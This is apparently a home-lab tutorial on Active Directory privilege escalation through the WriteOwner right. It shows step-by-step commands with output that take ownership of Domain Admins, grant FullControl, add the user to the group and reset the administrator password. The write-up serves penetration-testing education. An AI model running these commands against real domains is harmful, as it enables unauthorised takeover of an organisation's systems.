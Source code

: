 
# 🔐 Write Owner

The WriteOwner permission allows a user to change the ownership of an object to a different user or principal, including one controlled by an attacker. Consequently, an attacker can exploit this permission to take ownership of a target object.

Once the we successfully assumes ownership, they can fully manipulate the object. This includes modifying permissions to grant themselves or others Full Control over the object. For example, the attacker could assign Full Control permissions, allowing unrestricted access to read, write, or delete the object.

#### Scenario

Let’s suppose we have the credentials of user **Haseeb**:

- **Username**: `Haseeb`
- **Password**: `Password123`

And `Haseeb` has a **WriteOwner** on another user: **Domain Admins**.

## Setting Up a Misconfiguration

We have a group name Domain Admins we move it from group section to user folder just for ease

<img src="Imgs/image2.png" alt="Error loading Image" />

Right-click and go to:  
**Properties → Security**


### Add User

Click on **Add**:

<img src="Imgs/image3.png" alt="Error loading Image" />

Here, add user **Haseeb** and click **OK**:

<img src="Imgs/image4.png" alt="Error loading Image" />

---

### Modify Permissions

Now go to the **Advanced** option of user **Domain Admins** and edit permissions for user **Haseeb**:

<img src="Imgs/image5.png" alt="Error loading Image" />

Edit the setting for user Haseeb

<img src="Imgs/image6.png" alt="Error loading Image" />

Check the box for **Modify permissions**:

<img src="Imgs/image7.png" alt="Error loading Image" />


##  Enumeration from BloodHound

#### Data Collection using rust hound

```
rusthound --domain furious.local -u Haseeb -p Password123 --output .
```
---

Now, when we enumerate it using **BloodHound**, we can see that **Haseeb** has **WriteOwner** permission on **Domain Admins**.

<img src="Imgs/image1.png" alt="Error loading Image" />

## Exploiting Target User

To exploit this misconfiguration, we use three utilities:

1. **owneredit** – to change owner of the object  
2. **dacledit** – to grant `Haseeb` full control over the user `Domain Admins`  
3. **BloodyAD** – to change the password of user `administrator`, since we now have full access  

---

### First: Set Haseeb as the New Owner of Domain Admin

Here, `CN=DOMAIN ADMINS,CN=USERS,DC=FURIOUS,DC=LOCAL` is the Distinguished Name (DN) of the Domain Admins group.  
But we moved it to the user folder, that's why the CN is set to `Users`.

```bash
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-owner/rusthound]
└─$ impacket-owneredit -action write -new-owner 'haseeb' -target-dn 'CN=DOMAIN ADMINS,CN=USERS,DC=FURIOUS,DC=LOCAL' 'furious.local'/'haseeb':'Password123' -dc-ip 192.168.129.140

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-3290932372-4080220911-1111251399-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=furious,DC=local
[*] OwnerSid modified successfully!
```

### Giving Full Access to Haseeb

If we want to change the password of an `Administrator` user, we will fail.
No doubt we are owner, but we are **not** a member of the `Domain Admins` group.
So, first we have to **add self to that group**.

In order to do that, we must first grant Haseeb **full control** over the Domain Admins object.

I have explained the difference between *owner of object* and *full control on object* at the bottom.

```bash                                                                                         
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-owner/rusthound]
└─$ dacledit.py -action 'write' -rights 'FullControl' -principal 'haseeb' -target-dn 'CN=Domain Admins,CN=Users,DC=furious,DC=local' 'furious.local/haseeb':'Password123'        

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250509-073205.bak
[*] DACL modified successfully!
```    


### Adding Haseeb to Domain Admins Group

Now we add self to Domain Admins group:

```bash       
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-owner/rusthound]
└─$ bloodyAD --host "192.168.129.140" -d "furious.local" -u "Haseeb" -p "Password123" add groupMember "Domain Admins" "Haseeb"

[+] Haseeb added to Domain Admins
```                                                                                                       

### Changing the Password of Administrator

Finally, we change the password of the `administrator` user to `Password123`:

```bash                                         
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-owner/rusthound]
└─$ bloodyAD --host "192.168.129.140" -d "furious.local" -u "Haseeb" -p "Password123" set password "administrator" "Password123"
[+] Password changed successfully!
                                       
```

**Point**: The last step and second last step are optional depending on your goal.



### Difference Between Owner of an Object and Full Control on an Object (Active Directory)

### 1. **Owner of an Object**

The owner is the principal (user or group) listed in the object's **security descriptor** as its owner.

- **Automatically has the right to modify the DACL** (Discretionary Access Control List).
- This means the owner can **grant themselves additional permissions**, such as `GenericAll` or `WriteProperty`.
- However, until they do so, they **do not** have the right to perform actions like changing group membership or resetting a password.

> **Key Point**: Ownership is about potential control – you must explicitly grant yourself access before you can take full action.

---

### 2. **Full Control on an Object**

Also referred to as having **`GenericAll`** permission.

- Includes all rights: `Read`, `Write`, `WriteDACL`, `WriteOwner`, `ResetPassword`, `Add/Remove members`, etc.
- You can manage all aspects of the object **without needing to change the DACL**.
- Used in many privilege escalation attacks.

> **Key Point**: Full control means immediate and complete access.

---

